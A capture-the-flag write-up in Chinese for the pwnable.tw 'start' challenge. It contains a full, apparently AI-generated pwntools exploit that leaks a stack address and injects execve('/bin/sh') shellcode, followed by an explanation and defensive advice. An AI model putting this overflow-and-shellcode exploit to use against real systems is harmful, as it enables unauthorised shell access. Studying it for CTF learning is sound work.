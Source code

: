 ## AI提供的POC

```!=
#!/usr/bin/env python3
from pwn import *

context.arch = 'i386'
context.log_level = 'info'

# ============ 連線設定 ============
# 本地測試（正常執行）
# r = process(['qemu-i386', './start'])

# 本地除錯（需要另開終端執行 gdb-multiarch，然後 target remote :1234）
# r = process(['qemu-i386', '-g', '1234', './start'])

# 遠端攻擊
r = remote('chall.pwnable.tw', 10000)

# ============ Stage 1: 洩漏 Stack 地址 ============
log.info("Stage 1: Leaking stack address...")

padding = b'A' * 0x14                  # 20 bytes padding
ret_to_write = p32(0x08048087)         # 跳回 write syscall

payload1 = padding + ret_to_write

r.recvuntil(b'CTF:')
r.send(payload1)

# 接收洩漏的 ESP（write 會輸出 20 bytes，前 4 bytes 就是 ESP）
leaked_data = r.recv(20)
leak_esp = u32(leaked_data[:4])
log.success(f"Leaked ESP: 0x{leak_esp:08x}")

# ============ Stage 2: 執行 Shellcode ============
log.info("Stage 2: Sending shellcode...")

# execve("/bin/sh", NULL, NULL)
shellcode = b"\x31\xc0"              # xor eax, eax
shellcode += b"\x31\xd2"             # xor edx, edx
shellcode += b"\x52"                 # push edx
shellcode += b"\x68\x2f\x2f\x73\x68" # push "//sh"
shellcode += b"\x68\x2f\x62\x69\x6e" # push "/bin"
shellcode += b"\x89\xe3"             # mov ebx, esp
shellcode += b"\x31\xc9"             # xor ecx, ecx
shellcode += b"\xb0\x0b"             # mov al, 0xb
shellcode += b"\xcd\x80"             # int 0x80

# 計算 shellcode 地址
# leak_esp + 0x14 = shellcode 起始位置
shellcode_addr = leak_esp + 0x14
log.info(f"Shellcode address: 0x{shellcode_addr:08x}")

payload2 = padding + p32(shellcode_addr) + shellcode

r.send(payload2)

# ============ Get Shell ============
log.success("Enjoy your shell!")
r.interactive()

```


## AI總結

這題是經典的 **Stack Buffer Overflow + Information Leak + Shellcode Injection** 組合技。

### 核心技巧

1. **Information Leak（資訊洩漏）**
   - 利用第一次 ROP 跳回 write，洩漏 stack 地址
   - 因為沒有 PIE，可以直接使用固定的 gadget 地址

> ROP（Return-Oriented Programming）攻擊是一種在 無法直接執行 shellcode（例如啟用 NX 保護） 的情況下，
攻擊者利用程式內既有的機器碼片段（gadgets），重新拼湊出惡意邏輯來達成控制系統的攻擊手法。

2. **Shellcode Injection（程式碼注入）**
   - 利用洩漏的地址計算 shellcode 位置
   - 因為 NX disabled，stack 可執行
   - 第二次 overflow 注入並執行 shellcode

3. **關鍵計算**
   - 兩次執行的 stack 結構相同
   - 偏移量固定：shellcode_addr = leak_esp + 0x14

### 學到的技巧

- ✅ 使用 QEMU 在 64-bit 系統執行 32-bit 程式
- ✅ 使用 GDB 遠端除錯 QEMU 程式
- ✅ Stack 布局分析和地址計算
- ✅ 兩階段 ROP 攻擊
- ✅ Shellcode 編寫與注入

### 防禦建議

如果要防禦這類攻擊，應該：
- ✅ 開啟 Stack Canary（防止 buffer overflow）
- ✅ 開啟 NX（防止 stack 執行）
- ✅ 開啟 PIE（防止固定地址攻擊）
- ✅ 限制 read 的長度（避免 buffer overflow）

